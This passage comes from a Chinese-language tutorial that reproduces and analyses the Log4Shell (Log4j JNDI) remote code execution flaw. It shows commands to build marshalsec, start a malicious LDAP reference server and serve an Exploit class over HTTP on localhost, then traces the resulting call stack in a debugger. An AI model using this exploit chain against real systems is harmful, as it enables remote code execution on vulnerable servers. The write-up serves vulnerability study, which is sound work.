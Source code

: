 接下来需要用到一个RMI反序列化工具，受限克隆`marshalsec`源代码并进行编译，其地址为：`https://github.com/mbechler/marshalsec.git`，然后使用maven构建即可。

```bash
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
```

等待maven下载依赖并构建完成后，你应该可以在target中找到编译后的jar文件。

接下来我们使用该工具启动一个JNDI LDAP Server(target目录下)：

```powershell
Invoke-Java -Version "8u191" -ArgumentList "-cp",".\marshalsec-0.0.3-SNAPSHOT-all.jar","marshalsec.jndi.LDAPRefServer","http://127.0.0.1:8000/#Exploit","8888"
```

> 为了不同版本的Java调用方便，我特意写了一个Powershell脚本，如果你只有一个JDK，请参考正常调用。

正常调用：

```powershell
java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8888
```

随后我们利用Python简单的启动一个HTTP Server，注意这个Server必须在Exlpoit.class文件的目录下启动：

```powershell
python -m http.server 8000
```

### 0x04 执行任意代码

让我们回到开始写的代码，现在尝试执行它，可以发现：

![image-20211213225804147](./image-20211213225804147.png)

成功地弹出了计算器，这说明我们的命令被执行了。

### 0x05 RCE分析

接下来开始分析一下，从logger.error到JndiLookup.lookup中间都发生了什么。

老样子，既然我们知道了最终的代码是在Runtime.exec执行的，那么我们现在这个地方下个断点：

![image-20211213231045481](./image-20211213231045481.png)

然后调试，可以获取到函数调用栈：

```java
exec:347, Runtime (java.lang)
<clinit>:5, Exploit
forName0:-1, Class (java.lang)
forName:348, Class (java.lang)
loadClass:72, VersionHelper12 (com.sun.naming.internal)
loadClass:87, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:158, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```